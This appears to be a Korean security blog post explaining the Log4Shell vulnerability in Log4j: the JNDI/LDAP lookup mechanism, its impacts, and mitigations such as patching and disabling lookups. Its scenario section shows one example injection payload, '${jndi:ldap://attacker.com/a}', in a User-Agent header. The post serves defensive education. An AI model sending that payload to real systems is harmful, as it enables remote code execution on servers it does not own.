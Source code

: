 ```yaml
---
title: "[Security - Vulnerability] Log4j 취약점"
date: 2025-01-11 00:34:00 +0900
categories:
  - Security
  - Vulnerability
tags:
  - Security
  - Vulnerability
---
```


# Chapter 1. Log4j 취약점
#### 1. Log4j
##### 1-1. Log4j 란?
- Apache Software Foundation에서 개발한 Java 기반의 라이브러리
- Java 애플리케이션에서 로그 데이터를 생성, 필터링, 출력하는 데 사용

<br>
##### 1-2. 주요기능
- 다양한 로그 레벨 지원
- 콘솔, 파일, 원격 서버 등의 다양한 대상에 로그를 저장 가능
- 사용자 정의 로그 포맷 지원
- 성능 최적화 - 비동기 로깅을 지원하여 애플리케이션 성능에 영향을 최소화
- 플러그인 아키텍처를 통해 확장 가능

<br>
##### 1-3. 역할
- 애플리케이션에서 발생하는 이벤트 기록
- 문제 해결을 위한 디버깅 정보 제공
- 애플리케이션 모니터링 및 성능 분석에 유용한 데이터 수집

<br>
#### 2. Log4j의 취약점 및 원리
##### 2-1. 취약점
- 2021년 12월, Log4j 2.x 버전에서 발생한 **Log4Shell**(CVE-2021-44228)이라는 치명적인 취약점이 공개
- **리모트 코드 실행(RCE)** 을 허용하여 공격자가 원격에서 악의적인 코드를 실행

<br>
##### 2-2. 원리
- Log4j는 로그 메시지를 처리하는 과정에서 JNDI(Java Naming and Directory Interface)를 통해 원격 서버에 액세스
- 특정 입력 값이 포함된 로그 메시지가 처리되면, Log4j는 JNDI를 통해 악의적인 LDAP 서버에 연결하고, 공격자가 제어하는 코드를 실행

<br>
##### 2-3. 작동 메커니즘
- 사용자가 제공한 입력 값(예: HTTP 헤더, 사용자 이름 등)에 악의적인 페이로드 삽입
- Log4j가 해당 입력 값을 로그에 기록하며 JNDI 조회를 수행
- 원격 LDAP 서버로 연결하여 악성 코드를 다운로드하고 실행

<br>
##### 2-4. 시나리오
- 웹 애플리케이션에서 사용자 입력을 로그에 기록할 경우, 공격자는 페이로드를 포함한 값을 입력하여 원격 코드를 실행
- HTTP 요청 헤더의 `User-Agent` 필드에 페이로드를 삽입
	- 예시 - `${jndi:ldap://attacker.com/a}`
- Log4j가 이를 처리하면서 악성 LDAP 서버와 통신하여 악성 코드를 실행

<br>
##### 2-5. 영향
- **리모트 코드 실행(RCE)**
	- 공격자는 서버에서 임의의 코드를 실행할 수 있음
- **데이터 유출**
	- 민감한 데이터가 외부로 유출될 위험
- **랜섬웨어 배포**
	- 공격자가 랜섬웨어를 설치하여 시스템을 잠그고 금전을 요구할 수 있음
- **서비스 중단**
	- 시스템이 제어를 잃고 운영 불가능 상태에 빠질 수 있음

<br>
#### 3. 취약점 완화 및 대응
- **패치 적용**
	- Apache에서 제공하는 최신 Log4j 버전(2.17.1 이상)으로 즉시 업데이트
	- Log4j 1.x는 이 취약점에 영향을 받지 않으나, 더 이상 유지 보수되지 않으므로 최신 버전으로 마이그레이션 권장
- **구성 변경**
	- JNDI 조회 비활성화
		- `log4j2.formatMsgNoLookups=true` 속성을 활성화
		- 시스템 프로퍼티, 환경 변수 또는 구성 파일을 통해 설정 가능
	- `JndiLookup` 클래스 제거
		- `zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class`
- **네트워크 보안 강화**
	- 외부 LDAP 서버와의 연결 차단
	- 방화벽 규칙을 업데이트하여 의심스러운 트래픽 차단
	- IDS/IPS(침입 탐지/방지 시스템)를 사용하여 비정상적인 JNDI 호출 탐지
- **모니터링 및 탐지**
	- 시스템 로그를 정기적으로 점검하여 JNDI 관련 의심스러운 호출 확인
	- 보안 솔루션을 사용하여 취약점 악용 시도를 탐지
- **대체 솔루션 검토**
	- Log4j 외의 다른 로깅 프레임워크(예: SLF4J, Logback) 사용을 고려
	- 오픈소스 라이브러리에 대한 보안 지원 및 커뮤니티 활동 확인